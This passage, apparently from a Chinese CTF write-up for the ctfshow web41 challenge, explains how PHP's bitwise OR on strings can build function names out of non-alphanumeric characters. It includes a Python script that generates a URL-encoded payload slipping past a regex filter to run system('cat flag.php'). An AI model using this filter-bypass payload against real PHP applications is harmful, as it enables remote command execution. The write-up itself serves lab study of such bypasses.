 [https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)

看完之后才发现都被过滤了...

官方 wp

[https://wp.ctf.show/d/137-ctfshow-web-web41](https://wp.ctf.show/d/137-ctfshow-web-web41)

利用的是 `|` 运算符

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208081410624.png)

需要注意的是, 对字符串的或运算其实是对每一位字符对应的 ASCII 的或运算

例如 `"abc" | "def"` 的执行流程其实是分别将 `a` 和 `d` 的 ASCII 码进行或运算, 得到一个新的字符, 然后是 `b` 和 `e`, 以此类推, 一一对应

据此我们可以从 0-255 的 ASCII 码中找到一些不匹配上面正则表达式的特殊字符, 并且使他们或运算的结果是可打印字符 (32-127) (包含大小写字母, 数字和符号)

wp 中已经给出了脚本, 我这里自己写一个 python 脚本

```python
import re

preg = '[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-'

def convertToURL(s):
    if s < 16:
        return '%0' + str(hex(s).replace('0x', ''))
    else:
        return '%' + str(hex(s).replace('0x', ''))

def generateDicts():
    dicts = {}
    for i in range(256):
        for j in range(256):
            if not re.match(preg, chr(i), re.I) and not re.match(preg, chr(j), re.I):
                k = i | j
                if k in range(32, 127):
                    if not k in dicts.keys():
                        dicts[chr(k)] = [convertToURL(i), convertToURL(j)]
    return dicts

def generatePayload(dicts, payload):
    s1 = ''
    s2 = ''
    for s in payload:
        s1 += dicts[s][0]
        s2 += dicts[s][1]
    return f'("{s1}"|"{s2}")'

dicts = generateDicts()
a = generatePayload(dicts, 'system')
b = generatePayload(dicts, 'cat flag.php')
print(a + b)
```

